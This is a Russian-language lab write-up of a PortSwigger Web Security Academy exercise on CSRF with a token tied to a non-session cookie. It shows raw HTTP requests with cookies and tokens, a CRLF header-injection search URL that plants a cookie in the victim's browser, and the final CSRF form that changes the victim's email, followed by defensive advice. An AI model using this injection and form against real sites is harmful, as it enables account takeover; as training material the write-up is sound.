





лаба https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie
#### CSRF, где токен привязан к несессионному файлу cookie

Эту ситуацию труднее использовать, но она все еще уязвима. Если веб-сайт содержит какое-либо поведение, которое позволяет злоумышленнику установить файл cookie в браузере жертвы, то атака возможна. Злоумышленник может войти в приложение, используя свою собственную учетную запись, получить действительный токен и связанный с ним файл cookie, использовать поведение настройки файлов cookie, чтобы разместить свой файл cookie в браузере жертвы и подать свой токен жертве в своей атаке CSRF

задание:
нужно совершить атаку csrf для смены емейл
есть две учет записи в моем распоряжении

--------

думаю


то есть - нужно выполнить такой код в браузере жертвы
сперва выполнить вход в мой же аккаунт
и потом мне залогинитсья снвова и получить куку
и потом поторно атаковать жерту?
то есть жертве два раза подряд нужно перейти по ссылке ? что глупо как бы..

или загрузить такой скрипт который выполнит действие от имени жертвы - но с моим токеном, (например запрос главной стр), и потом выполнится код который сменит емейл используя полученный токен ? - но тогда это уже xss , и нужно выполнить  js код... то есть - это не сработает

короче - не пойму пока, как сделать это

запускаю лабу - резберусь на месте

-----


просмотрел стр сайта
в том числе открывал через инкогнито

вот заключение:


csrf токен типа hidden появляется при первом открытии стр в браузере
и далее этот токен используется везде, и при отправке комментария , и при выполнении поиска по сайту, и при запросе на смену емейл!
токен многразовый, живет, видимо долго, ну минут 10 точно по крайней мере.

------

у меня идея, что можно было по попробовать при переходе по ссылке - заставить браузер жертвы отправить коммент - и внутри коммента - чтобы был csrf токен, но в рамках CSRF так сделать не выйдет..

---

нужно действие - которое не требует csrf токена..

и я заметил вот что-
есть запрос - поиск постов по сайту
и если тупо вырезать от сюда csrfKey
то запрос тоже успешно выполняется

то есть я могу просто скинул ссылку на пост.. браво..
```http
GET /?search=7777zapros HTTP/2
Host: 0a0c00f6036db67f808a03b700fa00c0.web-security-academy.net
Cookie: csrfKey=KHXF7lmdHAAWXxhIZBXkDeIf6dXxLkLX; session=e3f1VGe6wli1RqBUqZ0mRzAUFn0xZLzO
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0c00f6036db67f808a03b700fa00c0.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```


и еще интересное наблюдение
вот запрос который выполняет смену емейл
токен многоразовый
но в запросе еще фигурирует LastSearchTerm=7777zapraos
то есть то - что я раньше гуглил в этом сайте
и это подставляется в http запрос...

вот запрос где устанавливается новая кука параметру LastSearchTerm




то есть получается - что я могу передать все что захочу и оно отразится в http запросе (это что-то типо xss)

```http
POST /my-account/change-email HTTP/2
Host: 0a0c00f6036db67f808a03b700fa00c0.web-security-academy.net
Cookie: csrfKey=KHXF7lmdHAAWXxhIZBXkDeIf6dXxLkLX; session=e3f1VGe6wli1RqBUqZ0mRzAUFn0xZLzO; LastSearchTerm=7777zapros
Content-Length: 60
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a0c00f6036db67f808a03b700fa00c0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0c00f6036db67f808a03b700fa00c0.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=hacker22%40bk.ru&csrf=rnjslXR8djr2YRhhKMY3oEUN0q6cwBsY
```
проверил:
без токена csrf  - емейл не хочет меняться




---


-----
пробовал xss пропихнуть (в поиск по сайту отправил `<script>alert(1)</script>`) - но не вышло
код обработки не вижу, и на стр смена емейл - не отображается 
вот так отразилось все при смене емейл




короче - не вижу тут возможности к xss 
и попытки успехом не закончились

-----


мысли вслух...

что я могу туда такое передать, чтобы токен сессии можно было не использовать.. 

попробую тупо передать туда свой сключ.. почему бы и нет..

и у меня как раз есть в описании лабы два аккаунта (кажись , я на верном пути)

я залогинился под карлосом и взял его токен  и сессию
`      csrf=y9KJdhcCQdVCoeYPyr2Y2YMlmLpvXZFi      `
`     session=zrBuaCwuUjWAp9dhS8JYVeZnY2dEcEu9   `
теперь я подставлю этот токен в свой запрос (/my-account/change-email) смены уже моего емейл , - подставил - не сработало, чужой csrf токен не подходит - ответ 400  "Invalid CSRF token"

то есть подсунуть свой токен втупую не вышло

это означает - что session кука - тоже важна..

и максимум что я могу сделать - это

```http
POST /my-account/change-email HTTP/2
Host: 0a0c00f6036db67f808a03b700fa00c0.web-security-academy.net

Cookie: 
csrfKey=KHXF7lmdHAAWXxhIZBXkDeIf6dXxLkLX; 
session=e3f1VGe6wli1RqBUqZ0mRzAUFn0xZLzO; 

LastSearchTerm=csrfKey=y9KJdhcCQdVCoeYPyr2Y2YMlmLpvXZFi; 
session=zrBuaCwuUjWAp9dhS8JYVeZnY2dEcEu9;

...
..
.

email=hacker22%40bk.ru&csrf=y9KJdhcCQdVCoeYPyr2Y2YMlmLpvXZFi
```


то есть я тут в поле LastSearchTerm - подставил - дублировал параметры токена и сессии - но подставил свои значения
и внизу в параметрах подставил свой токен..

но если это и сработает - то я сменю емайл сам себе получается... 
а мне нужно сменить емайл чужой! и в запросе должны быть его 
и кука сессии жертвы
и кука токен жертвы!

---
пробую подставить только токены а сессию не трогать
так как сессия должна остаться оригинальной для идентификации жертвы
```http
POST /my-account/change-email HTTP/2
Host: 0a0c00f6036db67f808a03b700fa00c0.web-security-academy.net
Cookie: csrfKey=KHXF7lmdHAAWXxhIZBXkDeIf6dXxLkLX; session=e3f1VGe6wli1RqBUqZ0mRzAUFn0xZLzO; LastSearchTerm=1; csrfKey=G2EsEwViBRepI0YcnT3Ulh4hvRJ53tf3
Content-Length: 60
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a0c00f6036db67f808a03b700fa00c0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0c00f6036db67f808a03b700fa00c0.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=hacker22%40bk.ru&csrf=G2EsEwViBRepI0YcnT3Ulh4hvRJ53tf3
```

----

до меня дошло.... не прошло 2 часов..

я отправляю запрос 
`GET /?search=%0d%0aSet-Cookie:3242 HTTP/2`
то есть с `%0d%0` переносом строки!
и сервер не валидирует и я могу устанавливать че хочу тут!
и ответ приходит 
```http
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=
Set-Cookie: 3242; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3537
```




-----

тогда я могу поставить туда свой csrf токен!
и в браузере жертвы установится этот мой токен!
и все запросы будут выполняться как бы от моего имени?

ну и что что в браузере жертвы будет мой токен?
кука сесиии то все равно будет жертве принадлежать!

нужно проверить - сработает ли это:

я отправил запрос на смену емейл 
в запросе кука сесии моя, а csrf токены оба карлоса!
то есть я могу точно также сделать если через 
`GET /?search=%0d%0aSet-Cookie:3242 HTTP/2`
подменю куку жертвы на свою
```http
POST /my-account/change-email HTTP/2
Host: 0a0c00f6036db67f808a03b700fa00c0.web-security-academy.net
Cookie: csrfKey=G2EsEwViBRepI0YcnT3Ulh4hvRJ53tf3; session=e3f1VGe6wli1RqBUqZ0mRzAUFn0xZLzO; LastSearchTerm=7777zapraos
Content-Length: 63
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a0c00f6036db67f808a03b700fa00c0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0c00f6036db67f808a03b700fa00c0.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=hacker22000%40bk.ru&csrf=G2EsEwViBRepI0YcnT3Ulh4hvRJ53tf3
```
но не получилось - сервер мне ответил - 400 "Invalid CSRF token"
тут session - моя 
csrfKey - карлоса
csrf -карлоса

тогда я не врубуюсь вообще... че за херня
сервер просит чтобы совпали

и кука сесиии (ее подменять нельзя - так как это id жертвы)
и кука csrfKey
и сам параметр csrf

причем я могу сменить в браузере жертвы csrfKey
и в параметре отправить сам параметр csrf
но кука сессии останется жертвы
и сервер мне говорит 400 "Invalid CSRF token"

-----

короче иду  в офиц решение, это вынос мозга какой-то...

------

вот итоговый пейлоад

```html
<!-- 1. Внедряем свой csrfKey через поиск -->

<!-- 2. Форма смены email с твоим токеном -->
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="YOUR-EMAIL">
    <input type="hidden" name="csrf" value="YOUR-CSRF-TOKEN">
</form>
```

разбор офиц решения

```html

```html
<!--  -->
 добавляют свой csrfKey через поиск 


 короче - как я и думал, можно установить в браузер чужую куку csrfKey НО НО НО ТУТ ЕЩЕ ХЕРНЯ ЕСТЬ _ SameSite=None_

-------------------------------

ameSite  это защита браузера которая определяет когда отправлять куку на другие сайты 
-------------------------------

 Lax (по умолчанию) — кука отправляется только при переходах по ссылкам (GET) 

 None — кука отправляется всегда (даже с POST запросов с других сайтов)  
 Strict — кука вообще не отправляется 

-------------------------------

ладно - разобрались - все что выше - тупо ставим мой токен в его браузер дял данного сайта (я так уже локально делал и была все равно ошибка "Invalid CSRF token" так как куку сесии не совпадала видимо с csrfKey и  csrf) но возможно проверка работает по другому как-то


 форма смены email с моим токеном

<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="YOUR-EMAIL">
    <input type="hidden" name="csrf" value="YOUR-CSRF-TOKEN">
</form>

короче - это трындец - потому что я тоже самое делал в свое браузере и ошибка была 400 "Invalid CSRF token"


```

==SameSite== - это механизм безопасности браузера, который определяет, когда файлы cookie веб-сайта включаются в запросы, исходяющие с других веб-сайтов. Ограничения файлов cookie SameSite обеспечивают частичную защиту от различных межсайтовых атак, включая CSRF, межсайтовые утечки и некоторые эксплойты CORS.


заполняю и отправляю жертве
```html


<!-- 2. Форма смены email -->
<form action="https://0a0c00f6036db67f808a03b700fa00c0.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacker22444324@bk.ru">
    <input type="hidden" name="csrf" value="rnjslXR8djr2YRhhKMY3oEUN0q6cwBsY">
</form>
```

и ... лаба решена..




это жесть...


-----


## выводы по лабе и защита

#### почему все-таки взлом получился?

Сервер использовал две независимые куки: `session` 
для идентификации пользователя 
и `csrfKey` для проверки CSRF-токена

Главная ошибка в том, что он не проверял, принадлежит ли `csrfKey` той же сессии, что и пользователь

Через уязвимый поиск с CRLF-инъекцией я смог подменить `csrfKey` в браузере жертвы на свой

В итоге на сервер ушел запрос с сессией жертвы, но с моим ключом и токеном — проверка прошла, и запрос на смену email выпонился, хотя когда я тестил запрос у себя в браузере - 
где я использовал:

session - моя 
csrfKey - карлоса
csrf -карлоса
то ответ был 400 на попытку смены емейл

и используя решение лабы получилось так:
session - жертвы 
csrfKey - мой
csrf -мой

но все сработало ебическим образом
И СРАБОТАЛО ЭТО ПОТОМУ - ЧТО КОГДА Я СДЕЛАЛ ЗАПРОС С ЗАМЕНОЙ КУК - ВОТ ЭТОТ ВОТ `GET /?search=%0d%0aSet-Cookie:тут моя кука котор ушла жертве HTTP/2` то видимо сервак принял этот токен как родной и установил этот токен как валидный для аккаунта жертвы - и это обьясняет - почему атака удалась


**Как защититься**  

Нужно жестко связать CSRF-токен с конкретной сессией пользователя на стороне сервера

При валидации проверять, что токен в запросе соответствует именно той сессии, которая его прислала

Не использовать отдельную куку для ключа, а если используешь — убедиться, что она неразрывно связана с сессией

И очень важно, без чего ничего бы не вышло вообще - обязательно фильтровать пользовательский ввод, чтобы нельзя было внедрить CRLF-символы и подменить заголовки ответа

---
а я пошел за узбагоином теперь..